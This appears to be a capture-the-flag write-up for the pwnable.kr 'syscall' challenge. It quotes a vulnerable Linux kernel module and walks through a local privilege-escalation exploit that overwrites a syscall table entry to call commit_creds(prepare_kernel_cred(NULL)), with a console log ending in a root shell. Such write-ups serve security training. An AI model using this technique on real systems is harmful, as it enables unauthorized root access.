 # pwnable.kr -- Rookiss -- syscall

## 1. Challenge

```
I made a new system call for Linux kernel.
It converts lowercase letters to upper case letters.
would you like to see the implementation?

Download : http://pwnable.kr/bin/syscall.c


ssh syscall@pwnable.kr -p2222 (pw:guest)
```

## 2. Solution

See source code:

```c
// http://pwnable.kr/bin/syscall.c
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );
```

You can find that `sys_upper` can let unauthorized users write almost any bytes to any address.

So 

1. Prepare a syscall routine `sys_getroot`

   ```c
   long sys_getroot(void* (*lpfn_prepare_kernel_cred)(void*), int (*lpfn_commit_creds)(void*)) {
       return lpfn_commit_creds(lpfn_prepare_kernel_cred(NULL));
   }
   ```

2. Overwrite `sys_upper` at `&SYS_CALL_TABLE[SYS_upper]` to `sys_getroot` with syscall `SYS_upper`

   ```c
   uint8_t buf[sizeof(void*) + 1] = {0};
   *(void**)buf = (void*)sys_getroot;
   syscall(SYS_upper, buf, SYS_CALL_TABLE + SYS_upper);
   ```

3. Call `SYS_upper` again with addresses of `prepare_kernel_cred` and `commit_creds`.

   ```c
   syscall(SYS_upper, lpfn_prepare_kernel_cred, lpfn_commit_creds);
   ```

   and you will get root privilege.

4. Finally, launch a shell to see the flag stored in `root/flag`.

```console
$ cd tmp

$ cat > solve.c
// paste code

$ gcc -Ttext=0x03bbc010 solve.c -o solve

$ cat /proc/kallsyms | grep prepare_kernel_cred
8003f924 T prepare_kernel_cred
80447f34 r __ksymtab_prepare_kernel_cred
8044ff8c r __kstrtab_prepare_kernel_cred

$ cat /proc/kallsyms | grep commit_creds
8003f56c T commit_creds
8044548c r __ksymtab_commit_creds
8044ffc8 r __kstrtab_commit_creds

$ ./solve 8003f924 8003f56c
[*] sys_getroot = 0x3bbc089
[*] lpfn_prepare_kernel_cred = 0x8003f924
[*] lpfn_commit_creds = 0x8003f56c
Launching shell...
/bin/sh: can't access tty; job control turned off
/tmp # whoami
whoami: unknown uid 0
/tmp # cat /root/flag
...
...
```


